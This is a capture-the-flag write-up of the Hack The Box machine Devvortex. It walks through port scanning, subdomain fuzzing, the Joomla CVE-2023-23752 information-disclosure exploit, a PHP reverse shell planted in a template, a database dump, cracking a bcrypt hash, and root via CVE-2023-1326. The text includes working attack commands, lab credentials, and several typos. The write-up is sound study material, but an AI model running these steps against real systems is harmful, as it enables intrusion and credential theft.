



The exploration of this machine began with scanning for open ports using nmap, identifying key services such as SSH and HTTP. A thorough enumeration revealed a Joomla installation vulnerable to CVE-2023-23752, allowing unauthorized information disclosure. Exploiting this vulnerability provided access to credentials, which were used to gain further access to the system. A reverse shell was uploaded, leading to initial access. Post-exploitation involved privilege escalation through a known vulnerability, CVE-2023-1326, ultimately granting root access.

# Overview



## 1. Intelligence Gathering

### Port Scan

```bash
nmap -Pn -sS --top-ports=10 10.10.11.242
```



It seems there is no defense mechanism, so a scan will be conducted on all ports of the host.

```bash
nmap -Pn -p- 10.10.11.242
```


Service versions

```bash
nmap -Pn -sV -p80,22 10.10.11.242
```

Output

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## 2. Enumeration

### **Port 22**

```bash
nc -nv 10.10.11.242 22
```


The banner matches the service version

### **PORT 80**

Checking the web application.


Main tools: Wappalyzer


> Nginx 1.18.0
> 

With netcat, it also returned the page code even without adding the domain.

```bash
nc -nv 10.10.11.242 80
GET / HTTP/1.0
```


Performing fuzzing of directories and files

```bash
gobuster dir -u http://devvortex.htb/ -w /usr/share/wordlists/dirb/big.txt  -t 50
```


Searching for subdomains.

```bash
gobuster dns -d devvortex.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

After finding [http://dev.devvortex.htb/](http://dev.devvortex.htb/), I added it to my /etc/hosts file to view what was available through the browser.


Fuzzing directories on the subdomain

```bash
feroxbuster -u http://dev.devvortex.htb/
```


I found the admin page

[http://dev.devvortex.htb/administrator/](http://dev.devvortex.htb/administrator/)


I tried logging in with default credentials, but it didn't work.

Checking the robots.txt file


## 3. Exploitation

Running Joomscan to find the version.

```bash
joomscan -u http://dev.devvortex/
```


> Version: 4.2.6
> 

Searching for vulnerabilities related to the version.


[GitHub - Acceis/exploit-CVE-2023-23752: Joomla! < 4.2.8 - Unauthenticated information disclosure](https://github.com/Acceis/exploit-CVE-2023-23752?source=post_page-----9cc1ad2961b5--------------------------------)

Reading the Wxploit requirements, it was necessary to install three Ruby gems (libraries) in a Ruby environment.


Utilization of the exploit:

```bash
git clone https://github.com/Acceis/exploit-CVE-2023-23752.git
cd exploit-CVE-2023-23752
gem install httpx docopt paint
```


Exploit

```bash
ruby exploit.rb [http://dev.devvortex.htb](http://dev.devvortex.htb/)
```


```bash
User: lewis
Pass: P4ntherg0t1n5r3c0n##
Usuario do Banco
```

Login successful 


In the templates, I will send a reverse shell.


I chose the file: `error_ful.php`


The shell I sent was from Pentest Monkey with my information of socket

Fiquei escutando na porta 1234

```bash
rlwrap -cAr nc -vnlp 1234
```


Location of the file: `templates/cassiopeia/error_full.php`


Initial Access


However, the user did not have any permissions


I improved the shell with Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


Since the user had database access, let's access the database.

```bash
mysql -ulewis -pP4ntherg0t1n5r3c0n##
```


```sql
show databases;
use joomla
show tables;
SELECT * FROM sd4fg_users;
```


The hash of the user with permissions was captured.


```
$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```


Crack 

```bash
nano hash
john --format=bcrypt hash --wordlist=/usr/share/wordlists/rockyou.txt
```


> User: logon | Pass: tequieromucho
> 

SSH access:


```bash
sh -oHostKeyAlgorithms=+ssh-dss logan@10.10.11.242
```

The `-oHostKeyAlgorithms=+ssh-dss` parameter you added to the SSH command specifies the use of the DSA (ssh-dss) host key algorithm. This parameter might be necessary when you encounter connection issues due to differences in the SSH client and server versions or specific cryptographic configurations.



## 4. Post-Exploitation

### Privilege Escalation

Sudo Misconfiguration

```bash
sudo -l
```


I couldn't find it on GTFOBins, so I searched on Google

[https://github.com/diego-tella/CVE-2023-1326-PoC](https://github.com/diego-tella/CVE-2023-1326-PoC)


I pressed options 1 and 2, then hit enter to call the bash with `!/bin/bash`

